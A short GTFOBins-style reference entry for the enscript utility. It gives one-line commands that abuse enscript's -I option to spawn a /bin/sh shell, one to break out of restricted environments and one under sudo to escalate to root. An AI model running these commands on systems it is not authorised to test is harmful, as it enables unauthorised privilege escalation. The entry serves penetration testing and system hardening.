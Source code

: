 # GTFOBin: enscript

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
enscript /dev/null -qo /dev/null -I '/bin/sh >&2'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo enscript /dev/null -qo /dev/null -I '/bin/sh >&2'
```